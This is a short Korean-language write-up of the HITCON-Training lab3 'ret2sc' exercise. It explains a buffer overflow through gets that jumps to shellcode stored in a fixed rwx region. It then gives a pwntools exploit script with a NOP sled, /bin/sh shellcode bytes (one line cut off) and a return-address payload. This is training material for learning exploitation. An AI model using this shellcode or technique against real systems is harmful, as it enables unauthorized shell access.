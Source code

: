 # 문제
***

해당 binary는 read를 통해 hard coding된 영역에 0x32byte 만큼 입력을 받는다. 그리고 get 함수를 호출하는데 이 get 함수를 이용하면 bof를 발생시킬 수 있다.

++hard coding된 영역은 rwx권한이 부여되어 있다.++

ALSR이 걸려 있으므로 hard coding된 영역에 shellcode를 삽입한 뒤 get을 이용해 해당 주소로 jmp하면 shell을 얻을 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path='/home/sungyun/HITCON-Training/LAB/lab3/ret2sc'

shell="\x90"*20
shell+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x8$

pay="A"*32+"\x60\xa0\x04\x08"


p=process(file_path)

p.recvuntil(":")
p.send(shell)
p.recvuntil(":")
p.sendline(pay)

p.interactive()

```


